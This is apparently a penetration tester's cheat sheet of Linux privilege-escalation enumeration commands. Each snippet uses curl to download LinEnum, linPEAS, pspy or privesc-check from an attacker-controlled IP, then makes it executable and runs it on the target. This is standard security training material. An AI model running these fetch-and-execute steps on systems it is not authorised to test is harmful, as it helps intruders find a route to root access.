 # linenum
```bash
curl http://192.168.45.198/linenum.sh > linenum.sh
chmod +x linenum.sh
./linenum.sh | tee linenum_output.txt
```

-----------------------

# linpeas
```bash
curl http://192.168.45.198/linpeas.sh > linpeas.sh
chmod +x linpeas.sh
./linpeas.sh | tee linpeas.txt
```

-----------------------

# pspy to view cronjobs
```bash
curl http://192.168.45.198/pspy64 > pspy64
chmod +x pspy64
./pspy64
```

-----------------------


# privesc-check
```bash
curl http://192.168.45.198/privesc_check > privesc_check
chmod +x privesc_check
./privesc_check

```

-----------------------
